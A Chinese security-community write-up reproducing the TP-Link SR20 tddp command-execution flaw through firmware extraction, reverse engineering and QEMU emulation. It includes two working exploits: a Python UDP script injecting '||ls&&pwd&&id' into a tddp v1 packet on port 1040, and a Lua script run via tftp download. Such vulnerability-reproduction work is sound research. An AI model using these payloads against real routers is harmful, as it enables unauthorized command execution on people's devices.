# TP-LINK SR20 命令执行漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18126  
> **文章ID**: 18126

---

### TP-LINK SR20 命令执行漏洞

#### 漏洞成因

漏洞主要存在于tddp v1 版本中



目前tddp有两个版本分别是v1版本和v2版本，其中v1版本不支持身份验证以及对数据包载荷的加密，而v2协议恰恰相反

#### 固件下载地址

<https://static.tp-link.com/2018/201806/20180611/SR20(US)_V1_180518.zip>

通过binwalk进行分离，其中会用到7z进行解压缩，所有需要提前下载7z，否则binwalk可能分离不出文件系统

分离成功后查找一下tddp所处的位置

```
 find ./ -name tddp
./usr/bin/tddp
```

发现存在于/usr/bin/ 目录下，把它下载出来进行逆向分析，在这之前可以看看文件的信息等等

```
 file ./usr/bin/tddp 
./usr/bin/tddp: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

32位 arm架构小端序，这里可以看见链接到了 /lib/ld-uClibc.so.0 因此可以通过 chroot 进行隔离把当前目录变成根目录即可

#### 逆向分析



在start函数里面可以发现，sub\_971c函数是第一个参数，一般这里是main，所以进去看看这个函数



通过查看每个函数的功能，发现第二个函数实现了主要功能





通过框起来的部分可以发现创建了一个socket



在函数sub\_16D68里面也可以发现通过bind 将socket 绑定到了1040端口

接下来会进入一个死循环



这里可以看见timeout是600秒期间通过select函数进行监控是否有数据读入

如下是ChatGPT的解释

`select` 函数是一个用于监视多个文件描述符（包括网络 socket）状态变化的系统调用。它允许程序等待一个或多个文件描述符准备好进行 I/O 操作，比如读取、写入或出现异常等。这种机制常用于实现非阻塞 I/O 或事件驱动编程模型，尤其是在处理多个连接的服务器应用程序中。

函数原型：

```
#include <sys/select.h>
#include <sys/time.h>
#include <unistd.h>

int select(int nfds, fd_set *readfds, fd_set *writefds, fd_set *exceptfds, struct timeval *timeout);
```

参数说明：

1. `nfds`：需要监视的文件描述符的数量。通常是文件描述符的最大值加 1。比如，如果你要监视的文件描述符是 0、1、2，那么 `nfds` 需要设置为 3。
2. `readfds`：用于监视是否有文件描述符准备好进行读取的集合。每个文件描述符可以通过 `FD_SET(fd, &readfds)` 加入集合，表示该文件描述符准备好读取数据。
3. `writefds`：用于监视是否有文件描述符准备好进行写入的集合。通过 `FD_SET(fd, &writefds)` 加入集合，表示该文件描述符准备好写入数据。
4. `exceptfds`：用于监视是否有文件描述符发生异常的集合。通常用于监视连接是否断开等异常事件。
5. `timeout`：指定 `select` 等待的最大时间。如果为 `NULL`，则表示 `select` 将一直阻塞，直到有文件描述符准备好。如果是一个具体的时间值，则 `select` 会在超时之前返回。如果设置为 `0`，则 `select` 会立即返回，用于非阻塞模式。

返回值：

* **返回 > 0**：表示有多少个文件描述符准备好进行相应的 I/O 操作。此时，可以通过 `FD_ISSET(fd, &readfds)` 来检查哪些文件描述符准备好。
* **返回 0**：表示超时，没有文件描述符准备好进行 I/O 操作。
* **返回 -1**：表示调用出错，此时可以通过 `errno` 查看具体的错误信息。

常见用法：

* **监视文件描述符是否可读、可写或发生异常**。
* **实现多路复用**，比如一个单线程的服务器需要同时监听多个连接。



之后使用recvfrom将通过socket读到的数据存放在 a1 + 45083 的位置

如下是ChatGPT的解释

`recvfrom` 函数是一个用于接收数据的系统调用，通常用于 **UDP** 套接字（`SOCK_DGRAM` 类型）或其他支持无连接通信的协议（例如，某些原始套接字）。它不仅能够接收数据，还能同时获取发送方的地址信息，因此常用于处理无连接协议的接收操作，比如 UDP 数据包的接收。

函数原型：

```
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

ssize_t recvfrom(int sockfd, void *buf, size_t len, int flags,
                 struct sockaddr *src_addr, socklen_t *addrlen);

```

参数说明：

* `sockfd`：接收数据的套接字文件描述符，通常是通过 `socket()` 函数创建的。
* `buf`：指向接收数据的缓冲区。数据将被存放到此地址所指向的内存区域。
* `len`：缓冲区的大小，表示 `buf` 中可接收的最大字节数。
* `flags`：控制接收操作的标志，通常为 0，常见的标志包括：

* `MSG_DONTWAIT`：非阻塞模式，接收操作不会阻塞进程。
* `MSG_PEEK`：查看数据但不从缓冲区中移除它。

* `src_addr`：指向一个 `struct sockaddr` 结构的指针，用于返回发送方的地址信息。在 UDP 中，这通常是发送者的 IP 地址和端口号。
* `addrlen`：输入时，表示 `src_addr` 指向的结构的长度；输出时，返回实际填充的地址长度。

返回值：

* **成功**：返回接收到的字节数。
* **失败**：返回 -1，并设置 `errno`，可以通过 `perror` 或 `strerror` 获取详细错误信息。

典型的使用场景：

* **UDP 套接字接收数据**：`recvfrom` 常用于接收来自不确定地址的 UDP 数据包，并且能够获取发送方的地址信息，适合实现 UDP 服务器和客户端通信。
* **原始套接字**：接收原始数据包时，也可以使用 `recvfrom`。

这里可以通过调试看看，先通过py脚本随便传入一些数据

```
from sys import *
from socket import *

s_send = socket(AF_INET, SOCK_DGRAM, 0)
payload = b'a'*0x8
s_send.sendto(payload, ("127.0.0.1",1040))
s_send.close()
```

#### 用户级模拟

```
sudo chroot . ./qemu-arm-static -g 1234 ./usr/bin/tddp 
```



这里发现下面有比较的处理，这里回到ida里面进行分析



这里取了首字节进行协议版本的判断，前面提到如果是v1版本则没有一系列的验证，那么这里首字节可以写入\x01



之后对着3个函数分析

这里看最后一个函数





这里又通过比较第二个字节来case对应的函数，前面提到是\x31这个分支，那么进去看看这个分支的具体实现



这里又对版本进行了判断，如果是v1那么v18和v13就往后加12个字节也就是除了版本\x01和分支\x31之后10个字节之后的数据

可以看见下面通过sscanf 对v18进行了分割， " ; "号之前的东西给了s，之后的东西给了v9，并且判断了它们是否为空值



如果不是就进行了命令执行，这里s就是之前的s，v15是请求的ip

这里tftp命令让GPT进行解释一下

`tftp -gr` 命令用于在 **TFTP**（Trivial File Transfer Protocol）客户端中接收文件。TFTP 是一个简化的文件传输协议，通常用于小型设备（如路由器、交换机、嵌入式设备等）之间的文件传输。与 FTP 相比，TFTP 不提供身份验证或加密等复杂功能，因此它适用于网络中的设备和环境中，特别是在启动过程中的文件传输。

`tftp -gr` 命令：

`-gr` 是 `tftp` 命令的两个参数：

* `-g`：表示 **get**，即从 TFTP 服务器接收文件。
* `-r`：表示 **remote file**，即指定要从 TFTP 服务器上下载的文件的名称。

语法：

```
tftp -g -r <remote_file> <server_ip>
```

参数说明：

* `-g`：表示从服务器接收文件（"get"）。
* `-r <remote_file>`：指定要从 TFTP 服务器下载的文件的文件名。
* `<server_ip>`：TFTP 服务器的 IP 地址，指向文件所在的 TFTP 服务器。

示例：

假设你要从 TFTP 服务器 `192.168.1.100` 下载名为 `firmware.bin` 的文件到当前目录，可以使用以下命令：

```
tftp -g -r firmware.bin 192.168.1.100
```

那么这里虽然不能使用；但是可以使用 || 以及&& 来命令执行而且下面还可以通过下载目标服务器的lua文件并进行执行



那么如果通过execve 来进行命令执行那么脚本就可以这样写

#### EXP1

```
from sys import *
from socket import *

s_send = socket(AF_INET, SOCK_DGRAM, 0)
payload = b'\x01\x31'
payload += b'a'*10
payload += b"||ls&&pwd&&id&&666;aaa"
s_send.sendto(payload, ("127.0.0.1",1040))
s_send.close()
```



可以看见成功进行命令执行

#### 系统级模拟

首先下载镜像，内核，以及文件系统

```
wget https://people.debian.org/~aurel32/qemu/armhf/debian_wheezy_armhf_standard.qcow2
wget https://people.debian.org/~aurel32/qemu/armhf/vmlinuz-3.2.0-4-vexpress
wget https://people.debian.org/~aurel32/qemu/armhf/initrd.img-3.2.0-4-vexpress
```

并创建tap0网卡连接qemu和主机

```
#!/bin/sh
#sudo ifconfig eth0 down                 # 首先关闭宿主机网卡接口
sudo brctl addbr br0                     # 添加一座名为 br0 的网桥
sudo brctl addif br0 ens33                # 在 br0 中添加一个接口
sudo brctl stp br0 off                   # 如果只有一个网桥，则关闭生成树协议
sudo brctl setfd br0 1                   # 设置 br0 的转发延迟
sudo brctl sethello br0 1                # 设置 br0 的 hello 时间
sudo ifconfig br0 0.0.0.0 promisc up     # 启用 br0 接口
sudo ifconfig ens33 0.0.0.0 promisc up    # 启用网卡接口
sudo dhclient br0                        # 从 dhcp 服务器获得 br0 的 IP 地址
sudo brctl show br0                      # 查看虚拟网桥列表
sudo brctl showstp br0                   # 查看 br0 的各接口信息
sudo tunctl -t tap0 -u root              # 创建一个 tap0 接口，只允许 root 用户访问
sudo brctl addif br0 tap0                # 在虚拟网桥中增加一个 tap0 接口
sudo ifconfig tap0 0.0.0.0 promisc up    # 启用 tap0 接口
sudo brctl showstp br0
```

启动脚本

```
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress \
  -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 \
  -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no \
  -nographic -smp 4
```

如果发现没有 ip的话那就手动进行配置

```
ip addr add 192.168.102.150/24 dev eth0
ip link set eth0 up
ip route add default via 192.168.102.145
```

启动起来之后把文件系统传入qemu，不过要先压缩打包一下文件系统，否则会出现错误

```
tar -czvf  squashfs-root.tar.gz squashfs-root
sudo scp squashfs-root.tar.gz  root@192.168.102.150:/root/
```

之后运行tddp，脚本换个ip即可发现成功命令执行



#### 通过lua来进行执行恶意代码

前提需要配置tftp服务以及安装lua，具体可以参考

[ubuntu 22安装lua环境&&编译lua cjson模块-阿里云开发者社区](https://developer.aliyun.com/article/1646900)

[Ubuntu最新版本(Ubuntu22.04LTS)安装Tftp服务及其使用教程\_ubuntu tftp-CSDN博客](https://blog.csdn.net/wkd_007/article/details/128992579)



这里可以看见调用的是config\_test函数

所以脚本可以这样写

#### EXP2

```
function config_test(para1, para2)
    os.execute("id")
    os.execute(para1)
    os.execute(para2)end
```

这里可以看见执行结果



执行了id 666 以及 ip ，其中id是自己定义的，666是第一个参数也是 ； 分隔符之后的数据 ，ip地址这个命令不可控

### Lua 概述

**Lua** 是一种轻量级的、高效的嵌入式脚本语言，设计目标是易于扩展、嵌入并且具有高性能。它被广泛应用于游戏开发、嵌入式系统、网络编程等领域。Lua 采用了简单、清晰的语法，并且非常容易与 C/C++ 等低级语言进行交互。

### 主要特点：

1. **轻量级和高效**：

* Lua 的设计非常轻量，通常一个 Lua 虚拟机的二进制文件大小非常小，适合嵌入到各种设备和系统中。
* 它具有很高的执行效率，尤其在嵌入式设备上表现突出。

1. **简单的语法**：

* Lua 的语法简单、易读，非常接近自然语言，这使得它适合快速开发和原型设计。
* Lua 设计灵活，不强制使用某种编程范式，可以支持面向过程、面向对象和函数式编程风格。

1. **可嵌入性**：

* Lua 最突出的特点之一就是它非常容易嵌入到 C 或 C++ 程序中。Lua 提供了清晰且易于使用的 API，允许 C/C++ 程序与 Lua 代码进行交互。
* 这使得它在游戏引擎（如 `World of Warcraft`、`Angry Birds`）和其他需要脚本扩展的应用程序中得到了广泛的使用。

1. **垃圾回收**：

* Lua 内置了自动垃圾回收机制，程序员不需要手动管理内存的分配与释放，这对于内存管理繁琐的嵌入式应用来说非常有用。

1. **扩展性强**：

* Lua 设计上非常注重扩展性。你可以通过 C 或 C++ 编写扩展库来增强 Lua 的功能，甚至将 Lua 作为嵌入式脚本引擎用于开发复杂应用。

1. **无缝集成**：

* Lua 可以与其他编程语言无缝集成。除了与 C/C++ 的集成，它还可以与其他语言如 Python、Java 和 JavaScript 等进行交互。

1. **高效的实现**：

* Lua 使用了高效的虚拟机，并且其垃圾回收机制、内存管理都非常高效，适合资源有限的环境，如嵌入式系统、移动设备等。

### Lua 的基本概念

1. **变量与数据类型**：

* Lua 支持基本的数据类型，如 `nil`、`boolean`、`number`、`string`、`table`（类似于数组和字典）以及 `function`（函数）。
* Lua 采用动态类型（无类型声明）和自动类型转换。

1. **控制结构**：

* Lua 提供了常见的控制结构：`if`、`while`、`for`、`repeat`、`break`、`return` 等。
* `if` 语句与许多语言相似，`for` 循环支持两种形式：数字型 `for` 和通用型 `for`。

1. **函数**：

* 函数是 Lua 中的第一类值，可以作为参数传递，也可以作为返回值。
* Lua 中的函数是闭包，支持词法作用域和动态作用域。

1. **表（Table）**：

* 表是 Lua 中唯一的数据结构，类似于数组、字典（哈希表）或结构体。
* 表不仅可以作为数组（按整数索引），也可以作为字典（按字符串索引）。
* 表是 Lua 中处理复杂数据的核心工具。

1. **元表和元方法**：

* 元表是一个特殊的表，它控制如何操作其他表（如加法、赋值、索引等）。
* 元方法是 Lua 中的“运算符重载”，通过元表实现。

Lua 示例代码

```
-- Lua 基本示例：计算数字的平方
function square(x)
    return x * x
end

-- 调用函数
print(square(5))  -- 输出 25

-- 使用表（数组）
fruits = {"apple", "banana", "cherry"}
print(fruits[1])  -- 输出 apple

-- 使用字典（表）
person = {name = "Alice", age = 30}
print(person.name)  -- 输出 Alice

```

### 与 C/C++ 的集成

通过 Lua 的 C API，你可以在 C/C++ 程序中运行 Lua 脚本，并与 Lua 进行交互：

1. **在 C 中初始化 Lua 环境**：

```
c复制编辑lua_State *L = luaL_newstate();  // 创建 Lua 状态机
luaL_openlibs(L);  // 打开 Lua 标准库
```

1. **加载并执行 Lua 脚本**：

```
c复制编辑luaL_loadfile(L, "script.lua");  // 加载 Lua 文件
lua_pcall(L, 0, 0, 0);  // 执行 Lua 文件
```

1. **传递数据给 Lua**：

```
c复制编辑lua_pushstring(L, "Hello from C!");  // 将字符串推入 Lua 堆栈
lua_setglobal(L, "greeting");  // 设置 Lua 全局变量
```

1. **获取 Lua 变量**：

```
c复制编辑lua_getglobal(L, "greeting");  // 获取 Lua 全局变量
const char* greeting = lua_tostring(L, -1);  // 获取字符串值
printf("%s
", greeting);  // 输出 Lua 中的字符串
```

### Lua 在实际中的应用

1. **游戏开发**：

* Lua 被广泛用于游戏开发中，作为脚本语言来控制游戏的逻辑，特别是在大型游戏中，比如 `World of Warcraft` 和 `Angry Birds`。

1. **嵌入式系统**：

* 由于其轻量级和高效的特点，Lua 被广泛应用于嵌入式设备中，用于控制硬件、处理数据、配置文件等。

1. **Web 开发**：

* Lua 的高效性使其成为 Web 开发中的一个不错的选择，特别是在需要高并发的场景中，像 `OpenResty` 就是使用 Lua 来扩展 Nginx 的功能。

1. **脚本自动化**：

* Lua 也常用于脚本自动化和配置文件处理，许多嵌入式设备和软件都使用 Lua 来扩展功能。

### 总结：

* **Lua** 是一种高效、轻量、易于嵌入的脚本语言，广泛应用于嵌入式系统、游戏开发、Web 开发等领域。
* Lua 的设计简洁，语法易学，同时也非常灵活，可以与 C、C++ 等语言无缝集成。
* 它提供了垃圾回收、函数式编程支持，并且能够轻松地与外部库进行交互。、

#### 参考文章

[iot安全入门：逆向分析程序（TP-Link SR20 命令执行漏洞为例）\_iot逆向-CSDN博客](https://blog.csdn.net/m0_73575406/article/details/142064995)

[TP-Link SR20命令执行漏洞复现 | ZIKH26's Blog](https://zikh26.github.io/posts/f87d120.html#搭建系统级仿真)
